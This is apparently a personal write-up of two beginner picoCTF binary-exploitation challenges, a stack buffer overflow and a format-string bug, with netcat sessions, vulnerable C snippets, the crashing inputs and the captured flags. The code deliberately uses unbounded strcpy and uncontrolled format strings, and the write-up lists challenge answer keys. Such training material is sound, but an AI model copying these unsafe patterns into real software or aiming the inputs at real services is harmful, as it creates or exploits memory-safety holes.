 # 1. buffer overflow 0

> Let's start off simple, can you overflow the correct buffer? The program is available [here](resources/binary-exploitation/bufferoverflow0/vuln). You can view source [here](resources/binary-exploitation/bufferoverflow0/vuln.c).  
Connect using: nc saturn.picoctf.net 56279

## Solution:

When we establish the netcat connection, we can see the program asking for an input, and then exiting.

```sh
┌──(soumil㉿Predator)-[~/picoCTF/bufferoverflow0]
└─$ nc saturn.picoctf.net 56279
Input: soumil
The program will exit now
```

Looking at the [source code](resources/binary-exploitation/bufferoverflow0/vuln.c) we can see that the `sigsegv_handler` function will return us the flag, so to setup a segmentation violation we will need to overflow a buffer somewhere, which we can see in the `vuln` function where `buf2` has size of 16.

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

Thus we can get the flag.

```sh
┌──(soumil㉿Predator)-[~/picoCTF/bufferoverflow0]
└─$ nc saturn.picoctf.net 56279
Input: 0000000000000000000000000000000
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:

- A SIGSEGV handler is a specific function or routine within a program designed to intercept and manage the SIGSEGV signal. SIGSEGV, or "Segmentation Violation," is a signal sent by the operating system to a process when it attempts to access memory that it is not authorized to access. This typically occurs due to errors like dereferencing a null pointer, accessing out-of-bounds array elements, or attempting to write to read-only memory.

## Notes:

- If you try to do the math by hand, maybe try and add a few more characters, as on inputting 17 characters the buffer didnt overflow. Sometimes there are things you aren't expecting.

***

# 2. format string 0

> Can you use your knowledge of format strings to make the customers happy?
Download the binary [here](resources/binary-exploitation/formatstring0/format-string-0).  
Download the source [here](resources/binary-exploitation/formatstring0/format-string-0.c).  
Connect with the challenge instance here:  
nc mimas.picoctf.net 53409

## Solution:

After establishing connection,

```
┌──(soumil㉿Predator)-[~/picoCTF/bufferoverflow0]
└─$ nc mimas.picoctf.net 53409
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation:
```

After going through the choices, if we enter `Breakf@st_Burger`, we get

```
Breakf@st_BurgerPatrick is still hungry!
Try to serve him something of larger size!
```

Then if we try with `Gr%114d_Cheese`, we get

```
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation:
```

Similary if we choose `Pe%to_Portobello`, we get

```
Enter your recommendation: Pe%to_Portobello
Pe20021560_Portobello
```

Then if we choose `Cla%sic_Che%s%steak` we get

```
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```

By looking at the [source code](resources/binary-exploitation/formatstring0/format-string-0.c), we need to get the flag through the `sigsegv_handler` function, ie: we need to overflow `BUFSIZE` of size 32.

On choosing `Gr%114d_Cheese`, the `%` is actually acting as a format specifier, thats why its being printed like `Gr                                                                                                           4202954_Cheese`, and thus goes to the `serve_bob` function, where the choice `Cla%sic_Che%s%steak` has format specifiers `%s` which are repeating the same string as shown in the output `ClaCla%sic_Che%s%steakic_Che(null)`, since it overflows the buffer of size 32, the `sigsegv_handler` is invoked and we get the flag

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```

## Concepts learnt:

- A SIGSEGV handler is a specific function or routine within a program designed to intercept and manage the SIGSEGV signal. SIGSEGV, or "Segmentation Violation," is a signal sent by the operating system to a process when it attempts to access memory that it is not authorized to access. This typically occurs due to errors like dereferencing a null pointer, accessing out-of-bounds array elements, or attempting to write to read-only memory.
- format specifiers

***
